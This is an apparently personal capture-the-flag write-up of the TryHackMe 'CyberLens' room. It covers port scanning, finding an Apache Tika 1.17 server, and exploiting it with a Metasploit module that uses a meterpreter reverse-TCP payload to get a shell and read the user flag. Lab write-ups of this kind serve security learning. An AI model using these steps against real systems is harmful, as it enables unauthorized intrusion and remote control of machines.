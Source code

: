Platform: TryHackMe
Room: CyberLens
URL: https://tryhackme.com/r/room/cyberlensp6
Date: June 5, 2024

# Notes
10:21 am
Loaded target machine
IP 10.10.234.94

added cyberlens.thm to hosts file (mentioned in the room description)
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/dc1950a7-8a20-4dab-9752-f0bb18e66d02)

Fast NMAP scan of target. `nmap -F cyberlens.thm`\
Found ports 80,135,139,445,3389

rustscan of target. `rustscan -a 10.10.234.94\
Found ports 80,135,139,3389,445,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671,61777

Running nmap service scan of all open ports `nmap -sV -p80,135,139,3389,445,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671,61777 cyberlens.thm`
OUTPUT:
```
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.57 ((Win64))
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
61777/tcp open  http          Jetty 8.y.z-SNAPSHOT
```
Found HTTP servers on ports 80,5985,47001,61777

Opened firefox browser and burpsuite, proxying traffic

Navigated to http://cyberlens.thm

Identified file upload location
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/7563d775-8fcf-4127-8504-b32fd9ccb44c)

clicked "browse" and selected a benign JPG. Clicked "GET Metadata"

Proxy shows a request made to `cyberlens.thm:61777/meta`

Navigated to https://cyberlens.thm:61777. It is running `Apache Tika 1.17 Server`
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/9f653a6f-1c26-4b83-bae5-008279feb550)

Searched exploit-db for "Apache Tika 1.17, and found a metasploit exploit that seems compatible. (https://www.exploit-db.com/exploits/47208)

started msfconsole and searched for apache tika, and found the exploit module.

used module, and using default payload "windows/meterpreter/reverse_tcp"

set RHOSTS cyberlens.thm\
set RPORT 61777\
exploit

Exploit succeeded, established meterpreter shell
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/0013ced4-53ce-40f4-b7a8-db7ea20e3059)

`shell` opened shell. `powershell` opened powershell shell

Navigated to C:/Users. Found 2 users, Administrator and CyberLens

Navigated to C:\Users\CyberLens\Desktop and found a file named "user.txt"

Obtained first flag
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/8c3cebbe-b8a0-4232-8f92-bfc673e59686)


